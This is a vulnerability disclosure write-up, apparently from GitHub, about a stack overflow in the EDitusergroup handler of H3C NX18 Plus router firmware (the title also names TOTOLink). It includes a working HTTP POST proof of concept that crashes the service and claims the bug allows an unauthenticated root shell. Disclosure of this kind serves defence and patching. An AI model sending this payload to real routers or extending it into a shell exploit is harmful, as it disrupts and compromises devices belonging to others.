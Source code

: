 # TOTOLink H3C Magic NX18 Plus NX18PV100R003 has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202103/1389284_30005_0.htm

### Product Information

H3C NX18 Plus NX18PV100R003  router, the latest version of simulation overview：

![image-20220720194826789](img/image-20220720194826789.png)

## Vulnerability details

The H3C NX18 Plus NX18PV100R003  router was found to have a stack overflow vulnerability in the EDitusergroup function. An attacker can obtain a stable root shell through a carefully constructed payload.

![image-20220720211305469](img/image-20220720211305469.png)

![image-20220723170038939](D:\vuln\H3C\NX18 Plus\20\img\image-20220723170038939.png)



The `param` we entered in the `EDitusergroup` function uses the `getElement` function to split the string.The getElement function splits the string by matching `a3`(the value of a3 is ";").Although the getElement function also limits the size of the copied string, it does not play an effective role. `V24` is the location where the split string is saved. It is only 4 * 4 in size. As long as the size of the data we enter is greater than the size of `V24` and does not exceed the size limited by the getElement function (the size limited by the getElement function is 64), it will lead to stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 536
Origin: https://192.168.124.1:80
DNT: 1
Connection: close
Cookie: LOGIN_PSD_REM_FLAG=0; PSWMOBILEFLAG=true
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=EDitusergroup&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;
```

![image-20220720210723701](img/image-20220720210723701.png)

The picture above shows the process information before we send poc.

![image-20220720210915164](img/image-20220720210915164.png)

In the picture above, we can see that the PID has changed since we sent the POC.

![image-20220720211131193](img/image-20220720211131193.png)

The picture above is the log information.

![image-20220624230619282](img/image-20220624230619282.png)

By calculating offsets, we can compile special data to refer to denial-of-service attacks(DOS).

![image-20220720065911385](img/image-20220723140942626.png)

Finally, you also can write exp to get a stable root shell without authorization.